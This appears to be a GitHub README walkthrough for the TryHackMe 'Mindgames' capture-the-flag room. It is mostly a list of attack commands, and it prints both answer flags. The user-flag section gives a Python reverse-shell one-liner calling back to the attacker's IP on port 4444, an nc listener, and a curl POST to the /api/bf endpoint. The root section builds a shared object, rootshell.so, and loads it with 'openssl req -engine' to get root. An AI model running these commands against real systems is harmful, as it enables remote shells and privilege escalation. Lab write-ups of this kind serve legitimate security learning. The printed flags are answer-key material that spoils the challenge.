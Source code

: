 # <div align="center">[Mindgames](https://tryhackme.com/r/room/mindgames)</div>
<div align="center">Just a terrible idea...</div> <br>
<div align="center">
<img src="https://github.com/user-attachments/assets/0d678302-ea56-43cf-af22-0a868e76a63e" height=""></img>
</div>

## Task 1. Capture the flags
No hints. Hack it. Don't give up if you get stuck, enumerate harder

## User flag.
```
thm{411f7d38247ff441ce4e134b459b6268}
```
* ```nmap -sSCV <IP>```
* ```curl -s http://<IP>```
* ```import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my_own_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);```
* ```nc -nlvp 4444```
* ```curl -d "+++++ +++++ [REDACTED] ++ ++<]> ++.<" -X POST http://<IP>/api/bf```
* ```cat /home/user.txt```
## ```+ 50``` Root flag.```
```
thm{1974a617cc84c5b51411c283544ee254}
```
* ```cat server.service```
* ```gcc -fPIC -o rootshell.o -c rootshell.c```
* ```gcc -shared -o rootshell.so -lcrypto rootshell.o```
* ```chmod +x rootshell.so```
* ```openssl req -engine ./rootshell.so```
* ```cat /root/root.txt```
